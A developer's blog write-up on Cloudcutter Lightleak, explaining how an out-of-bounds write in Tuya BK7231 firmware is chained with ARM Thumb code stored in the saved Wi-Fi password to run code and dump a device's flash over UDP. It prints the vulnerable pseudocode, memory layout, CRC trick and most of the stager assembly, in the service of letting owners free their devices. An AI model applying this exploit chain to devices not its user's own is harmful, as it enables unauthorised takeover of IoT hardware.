

I know, I know... that detailed write-up I promised [nearly 3 years ago](https://github.com/tuya-cloudcutter/lightleak/blob/master/README.md#cloudcutter-lightleak) never quite made it to the presses... until now, that is!

If you've been around in the cheap-ish smart home market in the recent years, chances are you're familiar with the [Tuya Cloudcutter](https://github.com/tuya-cloudcutter) project.

In short, it uses an exploit leveraging an **out-of-bounds write** to redirect the device firmware's control flow, in order to ultimately overwrite the device's secret keys and gain total control over it.

This includes the ability to *cut the device from cloud* (hence the name), preventing any calls to Tuya's home servers. Additionally, by acting like the original server, Cloudcutter allows to replace the device's firmware remotely, with a custom solution such as [ESPHome](https://esphome.io/).

During the last few years, thousands of people have been able to free their devices this way. The process was simple - just put your smart light/plug/whatever in the "AP configuration" mode, run Cloudcutter, select a *device profile*, and wait until it's done!

## ...a device profile?

Let me quickly recap Cloudcutter's principle of operation, without going too much into the details, that is - if you're interested in the specifics, go read [the original write-up by @kmhn](https://rb9.nl/posts/2022-03-29-light-jailbreaking-exploiting-tuya-iot-devices/)!

When the device is in **"AP mode"**, waiting for a configuration message from the Tuya mobile app, it listens on a socket for incoming UDP packets. These contain some JSON-encoded values, along with a binary header with CRCs and such. In the JSON payload, there are three pieces of information required to onboard a device onto your home Wi-Fi network:

```json
{"ssid": "<SSID>", "passwd": "<PASSWORD>", "token": "<TOKEN>"}
```

The data packet itself is not a problem, but the way the data is extracted **has\* a serious flaw** - it blindly copies the strings into memory, without checking if they fit. It's like filling a water bottle without noticing when it overflows.

\* It has been patched in 2022, new devices are no longer vulnerable to this exploit.

But being able to write data beyond where it's supposed to be usually does no more than crashing a program... unless you can, for example, overwrite a function pointer with a new address, and call this function - *which is exactly what's happening here*.

Simply put, Cloudcutter sends a configuration packet with the `token` string so long, that it reaches a nearby `finish_cb()` function pointer, and stores another address instead of the original callback. Luckily, this callback is then executed right after processing the packet.

Then, through a series of so-called "gadgets", the code reaches a leftover manufacturing test function, which happens to be able to *replace the device's secret authentication keys*.

---

Here's the problem - the address of that manufacturing function changes with **every single compilation** of the firmware. Devices from every manufacturer will likely have a different address. Newly-produced devices which use a slightly changed firmware will also have a different address. Even a simple bug-fix firmware update will most definitely change the address. There is no way to predict them, there are tens of thousands of possibilities.

That's essentially what a "device profile" is. It contains a set of addresses, extracted manually (later: [automatically](https://github.com/tuya-cloudcutter/tuya-cloudcutter/tree/main/profile-building)) from a firmware dump created manually, by **physically disassembling the device** and connecting it to an UART programmer.

This process works to this day - there were times when a new firmware dump was submitted *almost every single day*! As of today, Cloudcutter supports almost 300 distinct firmware versions.

---

However, some devices are difficult (if not impossible) to disassemble. Certain types, such as outdoor lights or sockets, are sealed to be water-tight - cracking those open pretty much means sacrificing one just to read the firmware off of it. Even if you manage to get to the Wi-Fi chip inside, going further requires soldering wires or desoldering the chip itself - and not everyone can do that.

Here's where [Cloudcutter Lightleak](https://github.com/tuya-cloudcutter/lightleak) comes into play: a method to **remotely dump the firmware** of (almost) any Tuya device that's vulnerable to the Cloudcutter exploit. While it might not have been the state-of-the-art project with the uttermost user-friendly experience, it certainly helped many people over the years.

## How does it work?

At this point I wanted to write a quick explanation of how Lightleak works.

*But I won't. This would spoil all the fun!*

Instead, let's start from the beginning and work the way through all challenges that I had to overcome. Brace yourselves - *it's about to get technical*!

## So, how did we even get here?

In September 2022, I started looking for a solution to exploiting these devices, that wouldn't be specific to the particular firmware version. For that, I needed a piece of **code that was at a known location** (address) - this could then eliminate the requirement of creating per-address device profiles.

My first idea was to use the BK7231T bootloader, since it includes code to parse *flashing commands* received from the aforementioned UART programmer. BK7231N has that in ROM instead, and ROM isn't available during the app's runtime - but that was a problem for later; I focused on the T chip for now.

I found several interesting *gadgets*, that could theoretically let me send such a *UART command* in the UDP packet, and the bootloader would parse and execute it. What could that achieve? Well, writing to the flash chip, for instance! Going from that to replacing the firmware Over-the-Air should be easy, right?

Not long after coming up with this idea I hit the first roadblock - the *code flow redirection* exploit has its limitations, which arise from the way this exploit works.

If you haven't read the write-up about Cloudcutter, here's how the UDP packet receiver's data structure looks like, as well as how and where the out-of-bounds write happens (in pseudocode):

<details>

<summary>Click to expand code...</summary>

```c
struct ssid_password_token_t {
    uint8_t ssid[33];
    uint8_t s_len;
    uint8_t passwd[65];
    uint8_t p_len;
    uint8_t token[17];
    uint8_t t_len;
};

struct udp_task_data_t {
	void *thread;
	u8_t packet[256];
	u8_t token[64];
	u32_t fd;
	u16_t unused1;
	u16_t unused2;
	int (*finish_cb)(void *, int);
	struct ssid_password_token_t spt;
	// [...]
};

void udp_receiver_task() {
	udp_task_data_t udp = {};

	// create a socket
	udp->fd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
	bind(udp->fd, /* ... */);

	// loop forever until success
	while (1) {
		// receive a packet
		recv(udp->fd, udp->packet, sizeof(udp->packet), 0);

		// parse JSON, extract ssid/passwd/token
		cJSON *json = cJSON_Parse(udp->packet);
		char *ssid = cJSON_GetStringValue(cJSON_GetObjectItem(json, "ssid"));
		char *passwd = cJSON_GetStringValue(cJSON_GetObjectItem(json, "passwd"));
		char *token = cJSON_GetStringValue(cJSON_GetObjectItem(json, "token"));

		// measure token length and copy it
		memset(udp->token, 0, 64);
		int token_len = strlen(token);        // [1]
		memcpy(udp->token, token, token_len); // [2]

		// copy ssid
		strncpy(udp->spt.ssid, ssid, 33);
		udp->spt.s_len = strlen(ssid);

		// copy passwd
		strncpy(udp->spt.passwd, passwd, 65);
		udp->spt.p_len = strlen(passwd);

		// copy token (again)
		strncpy(udp->spt.token, token, 17);
		udp->spt.t_len = strlen(token);

		// run the finish_cb() and end the task if successful
		int err = udp->finish_cb(&udp->spt, 0x10002); // [3]
		if (err == 0)
			udp_receiver_finish();
		else
			continue;
	}
}
```

</details>

A couple of things to point out:

1. The `strlen()` function is used, which means that `token` **cannot** contain NULL characters (see: C string termination).
2. This `memcpy()` is where the OOB write happens - length of `token` is never checked! Also, this call only copies `token_len` bytes - **without** the terminating NULL - this is the important bit.
3. Finally, the `finish_cb()` is called - if this address is overwritten, control flow redirection happens.

Why is 2. a limitation? At this point it helps to understand the memory layout (addressing) of BK7231 chips:

| Start [little-endian]    | End [little-endian]      | Area        |
|--------------------------|--------------------------|-------------|
| 0x0 [`00 00 00 00`]      | 0x10000 [`00 00 01 00`]  | Bootloader  |
| 0x10000 [`00 00 01 00`]  | 0x108700 [`00 87 10 00`] | Application |
| 0x400000 [`00 00 40 00`] | 0x440000 [`00 00 44 00`] | RAM         |

By default, the `finish_cb()` address will point to a function in the application binary, which means it will be between 0x10000 and 0x108700. When converted to little-endian (least significant byte first), one can notice that the 3rd byte will *always* be non-zero, while the 4th byte will *always* be zero.

Since only the non-zero bytes of `token` are copied by the `strlen()`/`memcpy()` combo, the chosen address to replace `finish_cb()` with also **cannot** have any NULL bytes on positions 1, 2 and 3, and **must** have a NULL byte at position 4.

To better illustrate why this is an issue - what would happen trying to replace the finish callback with a function at address 0xDEAD? For brevity, let's assume the overflow happens if the token is longer than 4 bytes:

```c
udp->finish_cb = original_finish_function; // 0xA1234 -> 34 12 0A 00
char *token = /* read from packet */;      // token = AAAA\xAD\xDE\x00\x00
int token_len = strlen(token);             // token_len = 6, not 8!
memcpy(udp->token, token, token_len);      // finish_cb = AD DE 0A 00 -> 0xADEAD - not good!
```

This meant that my bootloader-based approach was essentially doomed to fail.

## Another idea

Generally, to "own" the device, I needed to run custom code on it - even a few bytes of assembly code could be enough. Assuming that the entire flash chip is executable, I needed a way to write custom data *somewhere*.

Fortunately, the device stores some user-provided data in the flash - think Wi-Fi credentials, last-used settings, etc. Unfortunately, all that data is encrypted and stored in a storage partition, on an unpredictable address.

There is, however, one more place where the Wi-Fi credentials are written. That's actually not done by Tuya's firmware, but by Beken's SDK. **They call it the `fast connect info`** (FCI, for short) - it includes the SSID, BSSID, password, PSK, and sometimes IP addresses - *all in plaintext*.

That was it. The only known way of writing *arbitrary data* (without NULLs, still) to the flash chip. All that was required to save the FCI was connecting to the Wi-Fi network at least once. In theory, putting ARM executable code in the SSID/password should make it executable on runtime!

---

About the "NULL bytes in address" limitation - fortunately, this only applies to the `finish_cb()` address (and, optionally, addresses put in `ssid`/`passwd`). Since the entire UDP datagram can be at most 256 bytes long (see: `udp->buf[256]`), that leaves plenty of space for *arbitrary binary data*, that can be read later in the exploit chain.

Do you know what is the result of adding `ARM executable code` and `arbitrary binary data`? The ability to call arbitrary addresses! (and much, much more...)

## What makes code 'executable'?

Due to the limited amount of documentation and general knowledge about the BK7231 chips, I wasn't *actually* able to execute anything from that FCI storage just yet. Just like many other microcontrollers, Beken MCUs support XiP (eXecute in Place), meaning that program code is executed directly from the flash chip, without first being copied to RAM. Inconveniently, the XiP implementation on pretty much all Beken chips is... *interesting and confusing*.

The built-in SPI NOR flash chip is memory-mapped - it can be accessed as part of the address space - but the mapping is *not linear*. The flash memory starts at 0x0, and here's its general data reading/execution flow:

```
      1.                   2.                   3.                    4.
+-----------+        +-----------+        +-----------+        +--------------+
| SPI Flash |  --->  | CRC Check |  --->  | "Decrypt" |  --->  | Read/Execute |
+-----------+        +-----------+        +-----------+        +--------------+
                                                |
                     +-----------+              |
                     | eFuse/OTP | ---- Key ----+
                     +-----------+
```

Let's say we want to read 32 bytes from memory address 0x0 - here's roughly what needs to happen:

1. The data is read from SPI flash at offset 0x0 to 0x22 (34 bytes).
2. A **CRC-16 checksum** of the first 32 bytes is calculated. It is then compared to the last 2 bytes of that 34-byte block.
3. If **code "encryption"** is enabled in eFuse/OTP memory, the requested word is "decrypted".
4. Finally, the data is either executed or stored in a register/memory, depedning on the operation being performed.

!!! info "Note"
	The reason why "decryption" is enclosed in quotation marks is because it's not even a real cipher... check out [this BK7231 key calculator](https://github.com/mildsunrise/bk7231_key_calculator) if you want to learn more.

You might have noticed that reading 32 bytes *actually reads 34*! The extra two bytes are the CRC-16. This causes the address mapping between flash and memory to differ - for example:

| Memory  | Flash   |
|---------|---------|
| 0x0     | 0x0     |
| 0x20    | 0x22    |
| 0x1000  | 0x1100  |
| 0xABC0  | 0xB67C  |
| 0x10000 | 0x11000 |

Throughout my experiments in OpenOCD I found several key properties of that XiP implementation:

1. If a 34-byte block is filled with 0xFF, the checksum is *not checked* and the decryption is skipped - the data still reads as 0xFF.
2. If a block's CRC is incorrect, the chip just freezes completely.
3. If the data is not encrypted correctly (or with a different key), it's still decrypted (which results in garbage), since the cipher's only interaction with data is XOR.
4. Here's an important one: reading a particular block will fail if the **following** block is not valid.

## The Fast Connect Info structure

The simplest variant of the FCI is 171 bytes long. For brevity, I'll skip the more complicated variants found on BK7231N (XOR, IP). When represented as a C structure, it looks something like this:

```c
struct fci_t {
	uint8_t ssid[33];
	uint8_t bssid[6];
	uint8_t security;
	uint8_t channel;
	uint8_t psk[64];
	uint8_t passwd[65];
};
```

The data is usually located at offset 0x1E2000 on BK7231T (and 0x1D1000 on BK7231N). Since I was trying to store executable code in the Wi-Fi password, I needed to map out the logical CRC-block structure of that flash area.

Let's start with the addressing - 0x1E2000 *is NOT* divisible by 34. The closest number that *is* seems to be 0x1E2006. This physical address corresponds to logical 0x1C5A60. Let me highlight the CRC blocks in a hexdump-like format - this should help understand what we're dealing with:

```
1E2000  00 00 00 00 -- -- 11 11 11 11 11 11 11 11 11 11  |0123456789ABCDEF| <- ssid
1E2010  11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11  |0123456789ABCDEF| <- ssid
1E2020  11 11 11 11 11 11 -- -- 22 22 22 22 22 22 22 22  |.qwerty..aaaaaaa| <- bssid, security, channel, psk
1E2030  22 22 22 22 22 22 22 22 22 22 22 22 22 22 22 22  |aaaaaaaaaaaaaaaa| <- psk
1E2040  22 22 22 22 22 22 22 22 -- -- 33 33 33 33 33 33  |aaaaaaaaaaaaaaaa| <- psk
1E2050  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33  |aaaaaaaaaaaaaaaa| <- psk
1E2060  33 33 33 33 33 33 33 33 33 33 -- -- 44 44 44 44  |aaaaaaaaa.012345| <- psk, passwd
1E2070  44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44  |6789ABCDEF012345| <- passwd
1E2080  44 44 44 44 44 44 44 44 44 44 44 44 -- -- 55 55  |6789ABCDEF012345| <- passwd
1E2090  55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55  |6789ABCDEF012345| <- passwd
1E20a0  55 55 55 55 55 55 55 55 55 55 55 55 55 55 -- --  |6789ABCDEF.     | <- passwd
```

- *On the left side, I have numbered the CRC-blocks, from 0 to 5 (with "--" being the actual CRC-16 values).*
- *On the right side, I have indicated which field of FCI is stored in these locations.*

Hopefully it's easy to notice, that the `passwd` field spans over two CRC blocks - 4 and 5. Moreover, it also overlaps with the CRC-16 value of block 3 (which is not an issue - we don't care about block 3 - `psk`).

Block 4 was easy to work with, since it's fully contained in the password - including the CRC. That cannot be said for block 5, as its CRC value is located **outside of FCI** - therefore it's something I couldn't control. The CRC-16 value was fixed to 0xFFFF.

Luckily, I *could* control almost the entire *data* of block 5. With the help of a tool called [CRC RevEng](https://reveng.sourceforge.io/) it was possible to find a specific value, which, when placed in the `passwd` field, would result in a CRC value of 0xFFFF. This is called a **"reverse CRC"**.

Consider this (real) Lightleak FCI (irrelevant bytes stripped out):

```
1E2080  -- -- -- -- -- -- -- -- -- -- -- -- -- -- b8 32  |--------------.2|
1E2090  31 40 46 0b 33 48 40 db 01 f0 49 fb 01 c0 45 0c  |1@F.3H@...I...E.|
1E20a0  38 20 d9 8c f1 9d 8b ce 00 00 00 ff ff ff ff ff  |8 ..............|
```

The string `00 00 00 ff ff ff ff ff` is fixed - termination characters (0x00) and bytes already outside of the FCI (0xFF). The last two 0xFF bytes are the CRC value. By using CRC RevEng with this command line:

```
reveng -m crc-16/cms -i 0 -v 000000ffffffffff
```

the tool produces 0x7ADF. Calculating the CRC of actually used bytes of the `passwd` field (`b8 32 ... f1 9d`) gives 0xF111. Now, XORing these two values results in 0x8BCE. Inserting this right at the end of `passwd` will make the entire block produce a CRC value of **0xFFFF**! Don't believe me? [Try it yourself!](https://crccalc.com/?crc=b8323140460b334840db01f049fb01c0450c3820d98cf19d%208BCE%20000000ffffff&method=CRC-16/CMS&datatype=hex&outtype=hex)

To try it out, I prepared an "encrypted" Wi-Fi password along with correct CRC-16 values, started an AP (using some random ESP8266 board), connected the victim device to the network, and fired up OpenOCD.

The first usable CRC block (block 4) starts at 0x1E206C (see listings above), which translates to `0x1E206C / 34 * 32 = 0x1C5AC0`. The output of OpenOCD's `mdb` (memory dump bytes) command speaks for itself:

```
> mdb 0x1c5ac0 56
0x001c5ac0: f0 b5 20 1c 0c 38 86 68 a6 64 21 68 63 68 06 68 45 68 2c 68 2e 60 a4 38 98 47 2c 60 01 20 f0 bd
0x001c5ae0: aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa
>
```

The Beken chip successfully read two CRC blocks (4 and 5), skipped over the valid CRC values, "decrypted" the data and returned the **raw, executable form**. Perfect!

!!! success "NB"
	If you've been reading carefully, you might remember this bit:

	> reading a particular block will fail if the **following** block is not valid

	By reading blocks 4 and 5, the chip most likely also read **block 6**, which happens to reside outside of the FCI completely. Since the entire block at that offset is filled with 0xFF, it is considered valid.

Having a working way to execute custom code on the device, let's move on to the scary stuff.

## Writing tiny assembly programs

Let's start with the basics - how much *program space* is available for the exploit's code?

- `passwd` starts at 0x1E206A, but the first 2 bytes is the previous block's CRC, so usable data starts at 0x1E206C.
- `passwd` ends at 0x1E20AA (exclusive), not counting the terminating NULL byte.
- Block 4's CRC is in `passwd`, so that takes 2 bytes.
- Space for the "reverse CRC" for Block 5 occupies another 2 bytes.
- Lastly, the length limit of a WPA2-PSK passphrase is 63 characters (because 64 is interpreted as a PSK). Since ARM (Thumb-2) instructions are 2 bytes long, we have to round it down to 62 and take 2 more bytes.

In total, that gives: `0x1E20AA - 0x1E206C - 2 - 2 - 2 = 56 bytes`. In Thumb-2, that gives at most 29 instructions - that's plenty of space!

Great, so we know how much code to write and how to execute it. *But what should it even do?*

### 1. Call site

You're probably aware that pretty much any CPU uses registers to store frequently used data, before it gets stored in memory (RAM). This is no different on the BK7231 - the aforementioned UDP server keeps a reference to the `udp` structure in *one of* the registers. Which one? That's a great question.

Remember the `finish_cb()` caller code?

```c
int err = udp->finish_cb(&udp->spt, 0x10002);
```

Here's how it translates to ARM assembly (simplified):

```c
adds r5, #0xFC
ldr r3, [r5, #0x50]
movs r0, r7
ldr r1, =0x10002
blx r3
```

- The registers `r0, r1, r2` are function parameters - according to the ARM standard call convention.
- `r3` is used for storing the target function address (`finish_cb()`).
- `r0` holds the address of `&udp->spt`, and it's copied from `r7`. If their values are the same, `r7` won't be useful (it's safer to assume that the value will be in `r0`).

However, `r5` is an interesting one. It seems like `r3`, the address of `finish_cb()`, is read from `r5 + 0xFC + 0x50`. And we know that this address is stored in `udp_task_data_t` - can we actually get a pointer to the structure itself?

This is the structure in question, annotated with offsets of each field:

```c
struct udp_task_data_t {
	/* 0x000 */ void *thread;
	/* 0x004 */ u8_t packet[256];
	/* 0x104 */ u8_t token[64];
	/* 0x144 */ u32_t fd;
	/* 0x148 */ u16_t unused1;
	/* 0x14A */ u16_t unused2;
	/* 0x14C */ int (*finish_cb)(void *, int);
	/* 0x150 */ struct ssid_password_token_t spt;
	// [...]
};
```

The `finish_cb()` address is at 0x14C, which, conveniently enough, is exactly `0xFC + 0x50`. That means `r5` *initially* holds the address of `udp_task_data_t`, and is incremented by 0xFC later, *before* the function call takes place. Logically, at call site, `r5 = &udp + 0xFC`, as well as `r5 = &udp->packet[0xF8]`.

Do you see now why it's important to find this address? It allows to get hold of the **full, unmodified UDP packet** - whole 256 bytes of data, without NULL-byte restrictions! This allows to pass arbitrary data to the **stager payload**.

!!! info "..the what?"
	The *stager* payload - during working on Lightleak, we (me and @kmhn) decided to call the Wi-Fi password code a "stager" - a piece of code that prepares things for later exploitation.

	There is also a *proper* payload, which is what gets written to flash and... you'll find out later on.

Note that `r5` is **not** part of the ARM call convention - it's up to the compiler to choose a suitable register, so each build of the Tuya SDK *might* use a different one. Thus, here's the first job of the stager code - **detect which register is used for `udp_task_data_t`**.

It turns out that the majority of Tuya SDKs keep the address in either `r4` or `r5`, so it's just a matter of checking those two. To do that, I decided to put a magic value of 0xFF (that is `ff 00 00 00` in little-endian) somewhere in the UDP packet, and let the code *check both registers* whether the value matches.

Coding that in assembly wasn't too difficult:

```c
// at call site: r4/r5 == &udp + 0xFC == &udp->packet[0xF8]
_start:
	// check r4 first, keep &udp->packet[0xF8+0x04] in r7
	adds r7, r4, #0x04
	// load *r7 into r6
	ldr r6, [r7]
	// check if it's equal to 0xFF
	cmp r6, #0xFF
	beq prepare
	// otherwise use r5, keep &udp->packet[0xF8+0x04] in r7
	adds r7, r5, #0x04

prepare:
	// rest of code...
```

### 2. Keeping it alive

If you've used Cloudcutter before, you're probably aware that the payload execution **crashes the device** - ideally it shouldn't, if we want to do anything fancy with the device, after Lightleak completes the exploitation.

One of the reasons why the device crashes is a bad **socket descriptor** - once again, see the UDP server code:

```c
	bind(udp->fd, /* ... */);
	while (1) {
		// receive a packet
		recv(udp->fd, udp->packet, sizeof(udp->packet), 0);
		// process the packet...
	}
```

The `udp->fd` value is at offset 0x144 in `udp_task_data_t`, and `finish_cb()` is at offset 0x14C... and the Cloudcutter exploit overwrites everything all the way up to `finish_cb()`. Naturally, the socket handle also gets overwritten. The stager needs to restore it back to the correct value.

Using a debugger, I found that the `udp->fd` handle is (pretty much) always set to `3` - and that makes sense, knowing the usual file descriptors on UNIX systems (0 - stdin, 1 - stdout, 2 - stderr).

Since I didn't want to hardcode anything in the stager's assembly code, I used some more free bytes of the UDP packet to store the new socket handle and some other parameters. The `ldmia` instruction came in handy - `LoaD Multiple Increment After` - does pretty much what it says.

```c
// at call site: r7 == &udp->packet[0xFC]
prepare:
	// r7 = &udp->packet[0xF0]
	subs r7, 0x0C
	// r4 = udp->packet[0xF0] - new udp->fd
	// r5 = udp->packet[0xF4] - ...
	// r6 = udp->packet[0xF8] - ...
	// r7 = &udp->packet[0xFC] == &udp + 0x100
	ldm r7!, {r4, r5, r6}

	// store at udp->fd (&udp + 0x144)
	str r4, [r7, #0x44]
```

All this, along with *returning a non-zero value* (so that the UDP task doesn't quit because of successful configuration), allows sending multiple UDP packets, with each being executed by the stager payload - perfect!

!!! success "Saving code space"
	To return a non-zero value, I would have to use something like `mov r0, #1`. However, as each instruction counts towards the 56-byte limit, I used a neat trick to avoid that:

	```c
	_start:
		push {r0, r4-r7, lr}
		// ... run the stager payload ...
	finish:
		pop {r0, r4-r7, pc}
	```

	Since the `push`/`pop` combo is necessary anyway (to avoid corrupting the caller's registers), adding `r0` to the bracket list makes it restore the original value of that register, i.e. before the function call. That is guaranteed to be non-zero - it's a pointer to `&udp->spt`!

### 3. Choosing targets

The Lightleak code was meant to be universal (on BK7231T at least) - that is, independent from the particular SDK/app build used. Every part of it I've described so far is completely firmware-agnostic. Since it's pretty difficult to make 56 bytes of code do anything useful, I decided to use another piece of code that is usually the same on most devices - **the bootloader**.

As I mentioned before, the bootloader has routines for handling the UART flashing protocol - thus, it can reliably write to the device's flash memory. And, as we already learned, what can be written to the flash can also be executed.

Why write more code to flash, having the Wi-Fi stager payload already on it? The answer is in the question itself - *more code* means *more possibilities*.

---

The most common bootloader on BK7231T is `BK7231S_1.0.5`, but it's not *the only one* spotted in the wild. In order to gain access to the `flash_write()` function (name guessed), the **stager payload** has to check which bootloader is installed on the device, and dynamically choose the right address.

Given the limited code length, the simplest way to detect the running bootloader version is to **find a unique value** at a specified address - one that differs on all known versions. Knowing that "magic value", the stager can search for it in a map of [magic value -> function address], supplied in the **UDP payload's unused bytes**.

Consider the following data, which is inserted at offset 0x48 of the UDP packet - well within the unused area:

```
c7 e8 ff eb  1c 84 00 00
2c 01 94 e5  68 84 00 00
ff 68 05 e2  24 72 00 00
ff 60 0c e2  24 72 00 00
02 00 00 00
```

1. The first word is the **command word** - it determines what the stager should do. Generally, there are four possible values:
    - `0x00` - call a function `void func(u32 arg1)`,
    - `0x01` - call a function `void func(void *arg1, u32 arg2, u32 arg3)`,
    - `0x02` - finish, return to the caller (UDP task),
    - anything else - consider this the **magic value**.
2. The second word is the **argument 1 word** - for now, its only job is to hold the address of `flash_write()` that the stager is looking for.

As you can see, the data shown above is kind of like a variable-length dictionary - this one has 4 key/value pairs, and a finish command (0x02).

!!! info "Note"
	The magic values above were retrieved from logical address 0xB000 of the bootloaders' code (0xBB00 physical address). Values at this address, amongst many others, were found to be unique in all 4 known bootloaders.

Continuing the assembly code, here's the complete `prepare:` function, with comments about the previously-unused extra values:

```c
prepare:
	subs r7, 0x0C
	// r4 = udp->packet[0xF0] - lan->fd
	// r5 = udp->packet[0xF4] - **bootloader magic address** (0xB000)
	// r6 = udp->packet[0xF8] - **target storage address** (0x43E800 - arbitrary, somewhere in RAM)
	// r7 = &udp->packet[0xFC] == &udp + 0x100
	ldm r7!, {r4, r5, r6}
	str r4, [r7, #0x44]

	// load magic value from the device's bootloader into r5
	ldr r5, [r5]
	// set command list pointer (r7 = &udp->packet[0x48])
	subs r7, #0xB4

parse:
	// load next command from buffer
	// r0 = magic word / command word
	// r1 = argument 1 (function address)
	// r7 = r7 + 8
	ldmia r7!, {r0, r1}
	// check command word
	cmp r0, #0x02
	blo run    // less than 2 - function call command
	beq finish // equal to 2 - finish command
	           // anything else - bootloader detection command

search:
	// compare magic value from list (r0) with magic value from device's bootloader (r5)
	cmp r0, r5
	// try the next one if not matching (parse the next command)
	bne parse

store:
	// magic value matched - store function address from list (r1) somewhere (in r6)
	str r1, [r6]
	b finish
```

Simple, right? So far, the stager code can already be called several times in a row, fixing up the `udp->fd` value, and allowing to store a function address in RAM, depending on the installed bootloader.

### 4. Calling functions

In order to write more code to the flash, at least two functions must be used:

- `flash_erase_sector(u32 offset)`
- `flash_write(void *data, u32 offset, u32 length)`

Finding these is possible now - just send two UDP packets with addresses extracted from the bootloader, and different `target storage address` parameters.

This "storage address" is where the matched address will be written to during searching, as well as where it will be **read from** in order to call the functions.

The final piece of the stager's assembly code is pretty straightforward:

```c
// at call site:
// r0 = udp->packet[... + 0]  - command type (0x00/0x01)
// r1 = udp->packet[... + 4]  - argument 1
// r7 = &udp->packet[... + 8] - the rest of commands
run:
	// load target address from **target storage address**
	ldr r3, [r6]
	// check command type
	cmp r0, #0x01
	beq run_ptr

// 0x00 - call a function: void func(u32 arg1)
run_int:
	movs r0, r1 // copy arg1 (r1) to parameter 0 of the function (r0)
	b run_branch

// 0x01 - call a function: void func(void *arg1, u32 arg2, u32 arg3)
run_ptr:
	// at this point, r1 is already arg1, so no need to copy
	// load an extra parameter 2 (r2) from the UDP packet
	ldmia r7!, {r2}
	// copy UDP packet pointer (r7) as parameter 0 for the function
	// this makes it possible to pass void* data in the packet
	movs r0, r7

run_branch:
	blx r3 // call function in r3
```

It handles both 0x00 and 0x01 commands, which depends on the signature of the called function. This fits perfectly into the signatures of `flash_erase_sector` (command 0x00) and `flash_write` (command 0x01). By passing the UDP packet as parameter 0 of the function call, it can now hold the data to write to flash (at least 128 bytes at a time)!

---

And that's it - the entire stager code. Now it's up to the Lightleak client program (currently an Android app) to send the right packets, which first search for the flash-related functions, and then execute them in order to have more custom executable code on-device.

## What's next?

Okay, we've got a way to execute more custom code. This just means we've got more code to write! That's the **proper payload**.

This time, however, there are no strict limits on the code length - the proper payload is fully written in C, without using any external libraries (no C standard library either!).

!!! success "Proper payload"
	What does the proper payload even do, you might ask?

	Simple! It allows to read out the **entire flash memory** and dump it back in UDP packets. *(because... you know... Light<u>leak</u>... get it now?)*

It would take way too long to explain the entire code - if you're interested, [check it out here](https://github.com/tuya-cloudcutter/lightleak/blob/master/payload-proper/bk7231-proper-v1/dump.c) - so I'll only explain the general scheme of how it works.

### 1. Function search

The code needs to **send back** UDP packets - it needs to create a new socket (`socket(type)`), send data (`sendto(fd, data, len, addr, port)`), and finally close the socket (`close(fd)`). The bootloader doesn't have these functions - they are in the app's binary.

Because each app is different, the proper payload **searches** for the required functions using several clever tricks.

---

The first one is `ap_cfg_send_err_code()` - as the name implies, it's used to send error codes back to the AP configuration device (the smartphone). It's fairly short, but it references all functions needed for sending UDP packets - socket creation, data sending, socket closing.

1. To find the function itself, the code searches for the `sendto Fail,len:` string in the app's binary (that is, from 0x10000 to 0x108700). This string is only used in that particular function.
2. Once the string's address is found, the code searches for **this address** in memory - the function needs to know it, right?
3. Having found the address in memory, it searches **up** to find a `push {r4-r7, lr}` instruction - that's usually the first one in every function. Finding that reveals the entrypoint address of `ap_cfg_send_err_code()`.
4. To know the exact boundaries, the code also searches **down** to find a `pop {r4-r7, pc}` instruction.

Of course, we don't want to just send an error packet - we need the network-related functions that this error handler calls!

For this, the proper payload **scans the code** of that function (between the determined bounds) and looks for a `movs r0, #1` instruction. Why this one? Because that is the exact call site of the `tuya_hal_net_socket_create()` function:

```c
movs r0, #1 // socket type (0 - TCP, 1 - UDP)
bl tuya_hal_net_socket_create
```

!!! info "Note"
	Since the `ap_cfg_send_err_code()` function is pretty short, the call-site instructions that are searched for are only present there once.

Knowing the address of the **preceding** instruction, the code **parses the `bl` opcode** to find the called function's address. It's not that hard after all, but for anyone interested here's the outline:

- fetch the 32-bit `bl` opcode: 0xF7EBFD4D,
- note the address of that opcode: 0x1B9A6,
- decode the instruction to find the relative address: -0x14562,
- add the two addresses to find the target address: 0x7444.

The same is done for the two remaining socket functions (`tuya_hal_net_send_to()`, `tuya_hal_net_close()`), using appropriate instructions.

### 2. Proper payload commands

The proper payload is executed using command `0x01` of the stager payload - this means it's possible to pass more data to it - the signature is `int main(uint8_t *data, void *intf, uint32_t command)`.

The `data` holds arguments for commands, and the `command` can have several values:

- 0x01 - `cmd_flash_read()` - self-explanatory; reads the requested number of bytes from flash, and sends it back over UDP.
- 0x0E - `cmd_stop_timer()` - disables the Tuya AP-config mode timeout; usually the device will exit AP mode after around 3 minutes, making longer flash readouts impossible. This function tries to find the right timer and disable it.
- 0x10 - `cmd_fill_intf()` - this allows to copy the previously-discovered bootloader functions to a structure known to the C program; it is executed once, before other commands.

Simple, isn't it?

Armed with all this, whole-flash reading is possible. It is fully controlled via the Android application, which receives UDP packets and retries the readout if any of them are missing.

## What about BK7231N?

Oh, boy... that's a whole different story. For starters, BK7231N doesn't have flash-writing functions in the bootloader - only in BootROM, which is **not accessible** during app runtime. This can be solved by using flash read/write functions contained in the app's binary - they are near the beginning of the binary, so the majority of firmware builds actually have the same sets of addresses.

Next, the SDK functions are a little bit different, so the *proper payload* needs to have different function search patterns.

Finally, the Fast Connect Info's flash offset is different - not a big deal, but the worst part is that it's sometimes **XOR-encoded** at rest. It can also have a different format, where it also stores IP addresses.



I eventually managed to make Lightleak available for BK7231N, but it wasn't that stable, required testing multiple profiles to find the matching one, and sometimes didn't work at all... let's just not talk about it :slight_smile:

## The end

Congratulations, you've made it to the end of the write-up. It's quite possibly the longest post I'll ever have on this page... hopefully it wasn't too boring, though.

I hope you enjoyed reading, and maybe even learned something new!

Lastly, here's some eye candy that shows Lightleak in action:

<video src="vid1.mp4" muted controls width="100%"></video>
<br />
